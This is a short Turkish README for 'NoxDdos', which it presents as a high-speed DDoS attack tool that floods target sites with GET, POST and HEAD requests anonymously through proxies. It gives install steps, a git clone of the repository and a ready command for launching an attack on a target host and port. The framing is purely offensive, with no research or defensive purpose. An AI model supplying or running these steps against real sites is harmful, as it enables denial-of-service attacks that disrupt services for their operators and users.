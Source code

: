 # NoxDdos
NoxDdos, yüksek hızda ve etkili bir DDoS saldırı aracı olup, farklı HTTP metodlarıyla (GET, POST, HEAD) ve proxy desteğiyle anonim bir şekilde hedeflere yoğun trafik gönderir.

**Kurulum :**
`pkg install python3`
`pkg install python`
`pkg install git`
`git clone https://github.com/SenihX/NoxDdos.git`
`cd NoxDdos`

**Saldırıyı Başlatmak İçin:**
`python NoxDdos.py -t hedefsite.com -p 80 -r 1000`
